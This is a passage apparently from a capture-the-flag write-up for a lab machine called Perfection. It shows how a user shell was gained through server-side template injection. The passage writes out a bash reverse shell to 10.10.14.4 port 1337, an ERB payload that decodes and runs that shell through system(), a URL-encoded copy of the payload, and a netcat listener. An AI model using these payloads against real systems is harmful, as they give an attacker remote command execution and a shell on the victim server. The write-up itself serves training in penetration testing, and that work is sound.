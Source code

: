 ```bash title="bash reverse shell payload"
bash -i >& /dev/tcp/10.10.14.4/1337 0>&1
```

```erb title="ERB payload (non-URL encoded)"
<%= system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEzMzcgMD4mMQ== |
base64 -d | bash') %>
```

```txt title="URL encoded ERB payload"
%0a%3c%25%3d%20%73%79%73%74%65%6d%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%6
1%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%
78%4e%43%34%30%4c%7a%45%7a%4d%7a%63%67%4d%44%34%6d%4d%51%3d%3d%20%7c%20%62%61%73
%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%29%20%25%3e
```

And on our own machine

```bash
nc -lvnp 1337
```

Send the URL encoded request above...

![and here we go dark knight gif](the-dark-knight-joker.gif)

![Reverse shell](perfection-80-nc.png)

And just like that, we have user and are inside the user `susan`'s `/home` directory.

![Susan's home directory](perfection-80-user.png)
